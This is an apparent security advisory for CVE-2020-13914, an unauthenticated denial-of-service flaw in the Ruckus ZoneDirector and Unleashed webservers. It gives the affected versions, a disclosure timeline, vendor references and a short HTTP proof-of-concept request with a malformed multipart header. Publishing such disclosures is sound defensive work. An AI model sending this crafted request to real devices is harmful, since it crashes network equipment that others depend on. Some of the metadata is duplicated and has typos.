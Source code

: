 ```yaml
---
layout: vuln
credit: waveburst
timeline:
    - type: 'report'
      date: '2020-02-05'
      arg: 'Ruckus Product Security Team'
    - type: 'patch'
      date: '2020-06-15'
      url: 'https://support.ruckuswireless.com/security_bulletins/304'
    - type: 'cve-assign'
      date: '2020-06-07'
    - type: 'release'
      date: '2020-08-05'
product:
     - ' - ZoneDirector

        - Unleashed'

vulnerable:
    '- ZoneDirector: 9.9 and before

    - ZoneDirector: 9.10.x

    - ZoneDirector: 9.12.x

    - ZoneDirector: 9.13.x

    - ZoneDirector: 10.0.x

    - ZoneDirector: 10.1.x

    - ZoneDirector: 10.2.x

    - ZoneDirector: 10.3.x

    - Unleashed: 200.6 and before

    - Unleashed: 200.7'

vulnerable:
     - ' - ZoneDirector: 9.9 and before

    - ZoneDirector: 9.10.x

    - ZoneDirector: 9.12.x

    - ZoneDirector: 9.13.x

    - ZoneDirector: 10.0.x

    - ZoneDirector: 10.1.x

    - ZoneDirector: 10.2.x

    - ZoneDirector: 10.3.x

    - Unleashed: 200.6 and before

    - Unleashed: 200.7'

severity: 'moderate'
alephid: ALEPH-2020002
cve: CVE-2020-13914
date: '2020-06-07'
references:
    - src: 'Ruckus Networks - Security Advisory ID 20200615 - txt'
      url: 'https://www.ruckuswireless.com/security/304/view/txt'
    - src: 'Ruckus Networks - Security Advisory ID 20200615 - PDF'
      url: 'https://www.ruckuswireless.com/security/304/view/pdf'
  
title: 'Webserver denial fo service'
---
```

webs in Ruckus Wireless Unleashed through 200.7.10.102.92 allows a remote attacker to cause a denial of service (Segmentation fault) to the webserver via an unauthenticated crafted HTTP request.

Information about the exploitation of this vulnerability can alos be found in our  [DEFCON 28](https://www.youtube.com/watch?v=Yt3mJlnODHU) talk.


## Proof Of Concept ##
``` http
POST / HTTP/1.1
Content-Type: multipart/from-data; boundary=abc
Content-Length: 68

--abc
Content-Disposition:; name="text123"

text default
--abc--
```